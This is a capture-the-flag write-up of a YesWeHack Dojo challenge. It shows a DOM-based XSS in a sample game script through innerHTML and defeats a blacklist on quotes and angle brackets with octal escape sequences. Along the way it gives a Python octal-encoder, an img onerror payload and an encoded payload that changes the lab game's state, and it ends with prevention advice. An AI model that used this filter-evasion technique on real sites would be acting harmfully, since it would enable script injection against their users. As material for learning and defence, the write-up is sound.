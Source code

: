 # Cross-site Scripting (XSS) - DOM trought ($cmd) parameter using octal encoding (CWE-79)

## Description of the vulnerability

Cross-Site Scripting (XSS) is a type of vulnerability that allows an attacker to inject malicious code into a web page. This code is executed by the victim's web browser, allowing the attacker to steal sensitive information such as login credentials, manipulate the contents of the web page, or perform other unauthorized actions. In a DOM-based XSS attack, the attacker injects malicious code into the DOM (Document Object Model), which is then executed by the browser when the page is loaded or when a user interacts with the page in a certain way.

## Exploitation - steps to reproduce

> **source code**

In this situation, we have 2 inputs parameters : $username and $cmd

Let's take a look at the javascript source code :

```js
<script>

//Cass to create a new player:
class Player {
  constructor(status, name, spawn, grade, quotes) { 
    this.whoami = name;
    this.groups = grade;
    this.pwd = spawn;
    this.ls = quotes;
    this.connection = status;
  }
};

//Create new players: 'butters' and 'cartman':
const butters = new Player( 'online', 'Butters', '~/School', '4th Grade', Array('Hey Fellas!', 'Oh boy!', 'A little chaos...') );  
const cartman = new Player( 'online', 'Cartman', '~/School', '4th Grade', Array('Kewl', 'WassUP!!') );

//Add players to the `users` object:
let users = {};
let addUser = Object.assign(users, { butters, cartman });

//Cartman to rescue!!
var username = '$username';
var cmd = '$cmd';

/* [Help Guide]
* (1) => Check `user` if it's valid, if not valid (||) user = 'butters'. 
* (2) => Check if the `command` exists, if not valid (||) command = 'not found'
*/
var user = users[username] || users['butters']//(1)
var command = user[cmd] || 'Command \''+cmd+'\' not found.';//(2)

//Output:
document.getElementById('inpt').innerHTML = cmd+'<br>'+command;
document.getElementById('user').innerText = user.whoami+'@vr';

</script>
```

The code create 2 object Player and initialize them with differents attributs.
Then, each attributs can be accessed using the $username parameter to select a player, and $cmd paramater to select wich attribut to print. If the username specified or the command specified is not found, the user fallback to 'butters' and the command printed is 'not found'.

What is interesting here is this line : 
```js
document.getElementById('inpt').innerHTML = cmd+'<br>'+command;
```
This line use the `.innerHTML` tag, who's property is used for DOM manipulation. I can be used to examine/modify the content of the HTML page, meaning we can use it to inject some javascript code for Cross-site scripting.

> **Blacklisted characters**

All the following characters are blacklisted, and cannot be injected :
```"'`<>```
We cannot also use the escape characters ```\x \u``` used for hexadecimal and unicode character injection inside a string.
It look like we cannot inject any character useful to inject javascript code.

> **The flaw**

Actually, even if ```\x \u``` are blacklisted, we can still inject some special characters like `<>` or `'`, using another escape sequence character : the octal esacque sequence character. We can use it juste like the Unicode or Hexadecimal one to inject any ASCII character using it's octal code. 

For exemple the string ```Hello, world``` would be ```\110\145\154\154\157\54\40\167\157\162\154\144``` in octal numbers. 

> **Testing the injection**

Using a simple python code, we can translate any payload easily to octal code :
```py
import re
payload = input("Enter payload : ")
char_array = [oct(ord(c)) for c in payload]
pattern = r"[' ,\[\]]+"
result = re.sub(pattern,'',str(char_array))
print("Formated payload :\n",result.replace('0o','\\'))
```
This code take for input your payload, convert it to octal code for each character and then print all the codes in the good format for our injection/ We can try to use with a common XSS payload :
```js
<img src='x' onerror='alert("XSS")'>
```

![](dojo20/img/ywh-1.png)

Now let's try try it on the website : 

![](dojo20/img/ywh-2.png)

The octal encoding method is working, we can successfully execute javascript code !

## PoC

> **Completing the challenge**

Now that we have a working XSS, we can finish this challenge, who's main goal is to change the status of the player "Butters" from "online" to "offline".

This can be done using the following XSS payload :
```js
<img src='x' onerror='users.butters.connection = "offline";'>
```
and in octal code :
```
\74\151\155\147\40\163\162\143\75\47\170\47\40\157\156\145\162\162\157\162\75\47\165\163\145\162\163\56\142\165\164\164\145\162\163\56\143\157\156\156\145\143\164\151\157\156\40\75\40\42\157\146\146\154\151\156\145\42\73\47\76
```

We can complete the challenge by login in as Cartman and modifying Butters connection status :

![](dojo20/img/ywh-3.png)

## How to prevent :

* Validation of user input before using it in `.innerHTML`
* Better sanitization of users input, like adding octal encoding to the blacklist
* Use of content security policy to specify which sources are allowed to execute scripts

More [here](https://portswigger.net/web-security/cross-site-scripting/preventing)...

## Conclusion

As always , thanks for the dojo, it's still really fun to play with

#### #YesWeRHackers

## Sources

https://portswigger.net/web-security/cross-site-scripting/preventing
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
https://dev.to/caffiendkitten/innerhtml-cross-site-scripting-agc



